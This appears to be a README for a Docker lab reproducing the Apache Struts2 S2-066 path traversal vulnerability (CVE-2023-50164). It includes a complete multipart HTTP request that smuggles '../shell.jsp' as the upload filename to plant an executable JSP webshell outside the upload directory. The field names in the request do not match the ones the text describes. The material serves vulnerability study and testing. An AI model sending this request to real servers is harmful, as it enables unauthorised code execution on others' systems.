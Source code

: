 # Struts2 S2-066 Path Traversal Vulnerability (CVE-2023-50164)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

Apache Struts2 S2-066 is a path traversal vulnerability that exists in the file upload functionality. The vulnerability allows attackers to upload files outside the intended upload directory by manipulating the form field name case.

In Struts2's file upload processing, the framework normally only retains the basename of uploaded files to prevent path traversal. However, due to a logic flaw in the processing, attackers can bypass this protection by:

1. Using a form field with an uppercase first letter (e.g., "Upload" instead of "upload")
2. Providing a separate form field with the desired path traversal filename

This allows the unprocessed filename to override the basename protection, resulting in successful path traversal.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## Environment Setup

Execute the following command to start a web server written in Struts2 2.5.32:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Vulnerability Reproduce

First, try to upload a JSP script to the normal upload directory:

![Normal Upload](1.png)

Although the file is uploaded successfully, the JSP script cannot be executed in the upload directory due to server configuration:

![Execution Failed](2.png)

Exploit the S2-066 vulnerability to upload the file outside the `upload/` directory using the following request:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- The form field name is "Upload" (first letter uppercase)
- A separate "uploadFileName" field contains the path traversal "../shell.jsp"

![Successful Upload](3.png)

The JSP file is now uploaded outside the restricted upload directory and can be executed:

![Webshell Execution](4.png)

You can now access the webshell at `http://your-ip:8080/shell.jsp`.
